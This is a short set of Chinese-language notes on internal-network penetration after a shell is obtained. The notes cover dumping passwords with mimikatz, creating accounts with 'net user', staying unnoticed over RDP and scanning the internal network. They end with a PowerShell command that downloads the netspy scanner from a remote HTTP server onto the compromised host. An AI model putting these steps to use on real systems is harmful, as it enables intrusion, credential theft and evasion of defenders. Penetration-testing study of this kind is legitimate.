 # 内网渗透

---

## 远程登录

拿到 shell 之后需要登录的话可以用 `mimikatz` 之类的工具尝试获取主机密码, 如果能拿到明文密码的话就能够远程登录了

或者用 `net user` 命令创建新用户来进行登录(不过相比直接拿原有账密的密码而言, 这种操作太容易被发现了(⊙x⊙;))

- 选择合适的实际直接 RDP 过去是一种可行的方案, 不过默认情况下 Windows 只允许一个用户通过远程桌面连接登录, 如果挤掉了其他远程连接用户的话那么就被发现了

  > Win7 下拿到 shell 之后似乎可以通过在命令行中通过修改系统注册表来实现
  >
  > [How to enable multiple logon remote desktop in Windows 7 - Super User](https://superuser.com/questions/64171/how-to-enable-multiple-logon-remote-desktop-in-windows-7)

- Telnet

- SSH

- Powershell Remoting

- 第三方远程工具, 如 TeamViewer, VNC, PC Anywhere

> 除了 RDP 这一常用功能外, 其他的工具都或多或少需要在远控主机上进行相应的配置, 容易留下痕迹, 因此按下不表

---

## 内网信息收集

走代理扫描容易丢包, 推荐将扫描工具上传后扫描

---

### netspy

> netspy是一款快速探测内网可达网段工具（深信服深蓝实验室天威战队强力驱动）

可以在 [Releases · shmilylty/netspy (github.com)](https://github.com/shmilylty/netspy/releases) 下载可执行文件压缩包


```
iwr -Uri http://100.1.1.138:8000/download/netspy.exe -OutFile netspy.exe
```


